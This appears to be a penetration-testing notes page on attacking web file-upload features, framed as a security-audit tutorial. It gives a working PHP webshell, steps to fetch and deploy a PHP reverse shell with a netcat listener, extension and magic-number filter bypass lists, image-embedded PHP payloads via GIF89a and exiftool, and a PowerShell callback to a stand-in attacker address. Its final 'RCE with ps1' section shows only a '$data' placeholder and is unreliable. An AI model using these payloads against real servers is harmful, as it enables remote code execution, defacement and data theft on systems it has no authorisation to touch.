


# File Upload

The ability to upload files to a server has become an integral part of how we interact with web applications. Be it a profile picture for a social media website, a report being uploaded to cloud storage, or saving a project on Github; the applications for file upload features are limitless.

Unfortunately, when handled badly, file uploads can also open up severe vulnerabilities in the server. This can lead to anything from relatively minor, nuisance problems; all the way up to full Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. With unrestricted upload access to a server (and the ability to retrieve data at will), an attacker could deface or otherwise alter existing content -- up to and including injecting malicious webpages, which lead to further vulnerabilities such as XSS or CSRF. By uploading arbitrary files, an attacker could potentially also use the server to host and/or serve illegal content, or to leak sensitive information. Realistically speaking, an attacker with the ability to upload a file of their choice to your server -- with no restrictions -- is very dangerous indeed.

#### Example Methodology

Let's say that we've been given a website to perform a security audit on.

1. Start by analyzing the website with tools like Wappalyzer to identify its technologies, though it may not always be accurate. To manually check, intercept a response with Burpsuite to examine headers like `server` or `x-powered-by` for server info. Look for potential attack vectors, such as an upload page.
2. Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.
3. Attempt an innocent file upload and examine access methods. Is it directly accessible in an uploads folder or embedded in a page? Use tools like Gobuster if location is unclear. Understanding access patterns is crucial for further testing.
   * Use the `-x` switch in Gobuster to find files with specific extensions. For example, with `-x php,txt,html`, Gobuster appends `.php`, `.txt`, and `.html` to each word in the wordlist. This is handy if uploaded files are renamed by the server.
4. Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.

Determine the server-side filter blocking our malicious file upload using these methods:

* Uploading a file with an invalid extension (e.g., `testingimage.invalidfileextension`) can reveal if a server uses a blacklist to block certain file types. If it succeeds, it's likely a blacklist; if it fails, a whitelist is used.
* Upload a previously accepted file but change its magic number to something expected to be filtered. If the upload fails, the server likely uses a magic number filter.
* Test server filtering by uploading a file with Burpsuite, altering the MIME type to a restricted one. If it fails, MIME-based filtering is confirmed.
* Find the file size limit by uploading increasingly larger files until an error occurs, or check for details in the error message. Small limits might hinder uploading current reverse shell files.

## Overwriting Existing Files

<figure><figcaption></figcaption></figure>

We have a form that allow us to upload a image, and under the form a image shows.

Knowing the name of the image that the site shows, we can upload a new file that will be replace the standard file. The result is that now, when someone visit the page, will see the replaced image and not the site image.

## Remote Code Execution

There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: **webshells**, and **reverse/bind shells**.&#x20;

Realistically a fully featured reverse/bind shell is the ideal goal for an attacker; however, a webshell may be the only option available (for example, if a file length limit has been imposed on uploads, or if firewall rules prevent any network-based shells). We'll take a look at each of these in turn. As a general methodology, we would be looking to upload a shell of one kind or another, then activating it, either by navigating directly to the file if the server allows it (non-routed applications with inadequate restrictions), or by otherwise forcing the webapp to run the script for us (necessary in routed applications).

### Webshell

Let's assume that we've found a webpage with an upload form:

<figure><figcaption></figcaption></figure>

1. Find the directory where the file will be store.

<figure><figcaption></figcaption></figure>

2. Try to upload a webshell like this:


```php
<?php
    echo system($_GET["cmd"]);
?>
```


3. Now make a request with this path to obtain RCE vuln.

```
https://vuln.site.com/uploads/webshell.php?cmd=id;whoami;ls
```

<figure><figcaption></figcaption></figure>


### Reverse Shell

Download the reverse shell payload.


```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```


Change this line with listener ip.

```
$ip = '127.0.0.1';  // CHANGE THIS
```

Setup the listener with NetCat

```bash
nc -lvnp 1234
```

1. Upload the Reverse Shell payload file into vulnerable website.
2. View the file in the `uploads` directory to activate the connection

```
https://vuln.site.com/uploads/shell.php
```

3. Obtain the connection in NetCat listener.

<figure><figcaption></figcaption></figure>


## Enumeration possible filters

There could be some filter when we upload a document in a website. To bypass this we have to recognize them before.

These are the possible type of filter:

<details>

<summary><em><strong>Extension Validation</strong></em></summary>

File extensions are used (in theory) to identify the contents of a file. In practice they are very easy to change, so actually don't mean much; however, MS Windows still uses them to identify file types, although Unix based systems tend to rely on other methods, which we'll cover in a bit. Filters that check for extensions work in one of two ways. They either _blacklist_ extensions (i.e. have a list of extensions which are not allowed) or they _whitelist_ extensions (i.e. have a list of extensions which are allowed, and reject everything else).

</details>

<details>

<summary><em><strong>File Type Filtering</strong></em></summary>

Similar to Extension validation, but more intensive, file type filtering looks, once again, to verify that the contents of a file are acceptable to upload. We'll be looking at two types of file type validation:\


* _MIME validation:_ MIME (Multipurpose Internet Mail Extension) types are used as an identifier for files -- originally when transfered as attachments over email, but now also when files are being transferred over HTTP(S). The MIME type for a file upload is attached in the header of the request, and looks something like this:\
  \
  \
  MIME types follow the format \<type>/\<subtype>. In the request above, you can see that the image "spaniel.jpg" was uploaded to the server. As a legitimate JPEG image, the MIME type for this upload was "image/jpeg". The MIME type for a file can be checked client-side and/or server-side; however, as MIME is based on the extension of the file, this is extremely easy to bypass.\
  \

* _Magic Number validation:_ Magic numbers are the more accurate way of determining the contents of a file; although, they are by no means impossible to fake. The "magic number" of a file is a string of bytes at the very beginning of the file content which identify the content. For example, a PNG file would have these bytes at the very top of the file: `89 50 4E 47 0D 0A 1A 0A`.\
  \
  Unlike Windows, Unix systems use magic numbers for identifying files; however, when dealing with file uploads, it is possible to check the magic number of the uploaded file to ensure that it is safe to accept. This is by no means a guaranteed solution, but it's more effective than checking the extension of a file.

</details>

<details>

<summary><em>File Length Filtering</em></summary>

File length filters are used to prevent huge files from being uploaded to the server via an upload form (as this can potentially starve the server of resources). In most cases this will not cause us any issues when we upload shells; however, it's worth bearing in mind that if an upload form only expects a very small file to be uploaded, there may be a length filter in place to ensure that the file length requirement is adhered to. As an example, our fully fledged PHP reverse shell from the previous task is 5.4Kb big -- relatively tiny, but if the form expects a maximum of 2Kb then we would need to find an alternative shell to upload.

</details>

<details>

<summary><em>File Name Filtering</em></summary>

As touched upon previously, files uploaded to a server should be unique. Usually this would mean adding a random aspect to the file name, however, an alternative strategy would be to check if a file with the same name already exists on the server, and give the user an error if so. Additionally, file names should be sanitised on upload to ensure that they don't contain any "bad characters", which could potentially cause problems on the file system when uploaded (e.g. null bytes or forward slashes on Linux, as well as control characters such as `;` and potentially unicode characters). What this means for us is that, on a well administered system, our uploaded files are unlikely to have the same name we gave them before uploading, so be aware that you may have to go hunting for your shell in the event that you manage to bypass the content filtering.

</details>

<details>

<summary><em>File Content Filtering</em></summary>

More complicated filtering systems may scan the full contents of an uploaded file to ensure that it's not spoofing its extension, MIME type and Magic Number. This is a significantly more complex process than the majority of basic filtration systems employ.

</details>

## Bypassing Client-Side Filtering

There are four easy ways to bypass your average client-side file upload filter:

1. _**Turn off Javascript in your browser:**_ this will work provided the site doesn't require Javascript in order to provide basic functionality. If turning off Javascript completely will prevent the site from working at all then one of the other methods would be more desirable; otherwise, this can be an effective way of completely bypassing the client-side filter.
2. _**Intercept and modify the incoming page:**_ Using Burpsuite, we can intercept the incoming web page and strip out the Javascript filter before it has a chance to run.&#x20;
3.  _**Intercept and modify the file upload:**_ Where the previous method works _before_ the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter). Again, we will cover the process for using this method in the course of the task.\


    <figure><figcaption></figcaption></figure>
4. _**Send the file directly to the upload point:**_ Why use the webpage with the filter, when you can send the file directly using a tool like `curl`? Posting the data directly to the page which contains the code for handling the file upload is another effective method for completely bypassing a client side filter. We will not be covering this method in any real depth in this tutorial, however, the syntax for such a command would look something like this:\
   &#x20;`curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>`. \
   To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.\


## Bypassing Server-Side File Extention BlackList

When a filter has a Back list to block some specific file extension we can use alternative extension to bypass it.

<figure><figcaption></figcaption></figure>


<details>

<summary>PHP alternative extensions</summary>

```
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

</details>

<details>

<summary>ASP alternative extensions</summary>

```
asp
aspx
```

</details>

<details>

<summary>PERL alternative extensions</summary>

```
.pl
.pm
.cgi
.lib
```

</details>

<details>

<summary>JSP alternative extensions</summary>

```
.jsp
.jspx
.jsw
.jsv
.jspf
```

</details>

<details>

<summary><strong>Coldfusion</strong> alternative extensions</summary>

```
.cfm
.cfml
.cfc
.dbm
```

</details>


## Bypassing Server-Side Filtering Magic Number

Magic numbers are used as a more accurate identifier of files. The magic number of a file is a string of hex digits, and is always the very first thing in a file. Knowing this, it's possible to use magic numbers to validate file uploads, simply by reading those first few bytes and comparing them against either a whitelist or a blacklist. Bear in mind that this technique can be very effective against a PHP based webserver.

As expected, if we upload our standard shell.php file, we get an error; however, if we upload a JPEG, the website is fine with it. All running as per expected so far.

From the previous attempt at an upload, we know that JPEG files are accepted, so let's try adding the JPEG magic number to the top of our `shell.php` file. A quick look at the [list of file signatures on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) shows us that there are several possible magic numbers of JPEG files. It shouldn't matter which we use here, so let's just pick one (`FF D8 FF DB`). We could add the ASCII representation of these digits (ÿØÿÛ) directly to the top of the file but it's often easier to work directly with the hexadecimal representation, so let's cover that method.

Before we get started, let's use the Linux `file` command to check the file type of our shell:


Add 4 char at the begin of the file in this way:

<figure><figcaption></figcaption></figure>

Now with a hex editor change the first 4 hex with the code for the legit file extension (ex jpeg).

```
hexeditor shell.php
```

<figure><figcaption></figcaption></figure>

Now if we save and exit the file (Ctrl + x), we can use `file` once again, and see that we have successfully spoofed the filetype of our shell:


Now try to upload this file on the webpage and this could bypass the magic number filter.&#x20;

## PHP file

###

### GIF89a;

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

### In image

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg


## PowerShell file

Simple payload to check if the script will be executes


```powershell
Invoke-WebRequest -Uri ATT_IP:ATT_PORT
```



We have to execute this command in the attack machine before `nc -lnvp ATT_PORT`


If we received a request from a machine, it means that our script will execute by someone.

<figure><figcaption></figcaption></figure>


### RCE with ps1 file.

Upload this payload the command that we want will be executes in the target machine and the output will be send in our listener.

```
$data
```

